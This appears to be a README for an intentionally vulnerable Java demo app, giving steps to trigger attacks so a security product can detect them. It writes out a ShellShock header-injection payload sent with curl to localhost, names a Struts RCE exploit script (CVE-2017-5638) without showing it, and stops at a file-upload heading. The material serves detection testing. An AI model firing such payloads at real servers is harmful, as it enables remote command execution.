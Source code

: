 # Instructions for exploiting vulnerabilities in the java - goof app

## Exploits

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8080
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, Cloud One Application Security's Malicious Payload algorithms will pick up on the attempts.

### Malicious Payloads (Apache Struts)

/exploits/struts-exploit.sh
Apache Struts2 Remote Code Execution Vulnerability (CVE-2017-5638)

### Malicious File Upload over the frontend
